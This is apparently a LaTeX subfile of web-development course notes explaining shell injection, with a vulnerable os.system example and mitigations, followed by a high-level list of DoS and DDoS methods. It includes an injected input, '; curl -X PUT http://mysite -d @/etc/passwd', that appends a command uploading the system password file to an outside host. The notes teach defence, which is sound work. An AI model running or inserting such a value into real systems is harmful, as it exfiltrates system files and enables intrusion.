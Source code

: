 \documentclass[../CMPUT-404-Notes.tex]{subfiles}
\begin{document}
\section{Shell Injection}
The same as the other injections but instead of SQL you run a command.
A malicious user can insert escape code to run what they want.

Imagine you have a code segment like this?
\begin{listing}[!h]
\begin{verbatim}
os.system("command arg1 arg2 %s", arg3)
\end{verbatim}
\end{listing}

and a user supply this

\begin{listing}[!h]
\begin{verbatim}
; curl -X PUT http://mysite -d @/etc/passwd
\end{verbatim}
\end{listing}

\subsection{Solution}
\begin{itemize}
  \item Use libraries that escape all shell commands
  \item Don't execute commands with a shell, just do direct exec
  \item For example use python's subprocess to spawn and fork the command.
\end{itemize}


\section{DOS and DDOS}
(D)DOS or (Distributed) Denial of Service.
Common DOS methods include:
\begin{itemize}
  \item Spamming
  \item Flooding
  \item Filling queues with information
  \item Sending useless expensive jobs
  \item Using all available resources
\end{itemize}
The distributed DOS is DOS but operated with multiple machines.
Common DDOS methods includes:
\begin{itemize}
  \item Redirecting web traffic
  \item Using DNS poisoning to redirect people
  \item Lying to routers to route traffic to a non router
  \item Sending very slowly
  \item Reading very slowly
\end{itemize}
\end{document}
